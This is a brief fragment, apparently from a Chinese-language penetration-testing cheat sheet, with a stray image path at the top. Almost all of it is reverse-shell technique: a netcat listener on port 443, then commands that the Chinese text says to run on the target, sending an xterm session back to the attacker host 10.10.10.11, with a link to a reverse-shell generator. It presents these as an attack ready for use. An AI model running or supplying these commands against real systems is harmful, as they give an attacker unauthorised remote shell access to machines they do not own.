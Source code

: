 ```bash
nc -lvp 443
```
然后在靶机上执行如下命令：
```bash
xterm -display 10.10.10.11:1
Xnest :1
xhost +targetip
```

参考链接：
https://krober.biz/misc/reverse_shell.php?ip=10.10.10.11&port=443

